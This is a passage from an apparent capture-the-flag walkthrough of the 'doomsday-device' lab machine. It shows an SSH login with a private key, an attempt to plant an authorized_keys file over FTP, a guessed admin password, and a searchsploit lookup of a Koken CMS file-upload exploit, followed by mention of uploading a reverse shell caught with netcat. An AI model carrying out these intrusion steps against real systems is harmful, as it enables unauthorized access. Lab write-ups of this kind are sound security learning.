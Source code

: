 Let's use the newly written key to login via SSH: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ ssh -i id_rsa michael@192.168.56.181                                      255 ⨯
______                 _            ___  ____  __  __ _ _       
|  _  \               | |           |  \/  (_)/ _|/ _| (_)      
| | | |_   _ _ __   __| | ___ _ __  | .  . |_| |_| |_| |_ _ __  
| | | | | | | '_ \ / _` |/ _ \ '__| | |\/| | |  _|  _| | | '_ \ 
| |/ /| |_| | | | | (_| |  __/ |    | |  | | | | | | | | | | | |
|___/  \__,_|_| |_|\__,_|\___|_|    \_|  |_/_|_| |_| |_|_|_| |_|
michael@doomsday:~$ 
{% endhighlight %}

`.sus.txt` : `#FLAG7: 76a2ecd19b04acb89b7fe8c3d83296df`


Adding a `.ssh/authorized_keys` file to the user creed's home directory with our
`id_rsa.pub` key. 
{% highlight terminal %}
ftp> mkdir .ssh
257 "/.ssh" created
ftp> cd .ssh

ftp> put authorized_keys 
local: authorized_keys remote: authorized_keys
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
563 bytes sent in 0.00 secs (4.4743 MB/s)
{% endhighlight %}
This didn't work so onto other sections. 

Navigating to `http://192.168.56.181:18888/admin/` the clue was "The password is most probably one of her cats name."
after some guesswork here, I found that the password was Crinklepuss

Using searchsploit to find a vulnerability in the koken CMS:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ searchsploit koken                  
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authen | php/webapps/48706.txt
-------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                    
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ searchsploit -m php/webapps/48706.txt
  Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
      URL: https://www.exploit-db.com/exploits/48706
     Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/ctfs/doomsday-device/48706.txt
{% endhighlight %}
Once we gain access, uploading a reverse shell using the method in `48706.txt` is 
fairly simple. We then catch the reverse shell with netcat. 
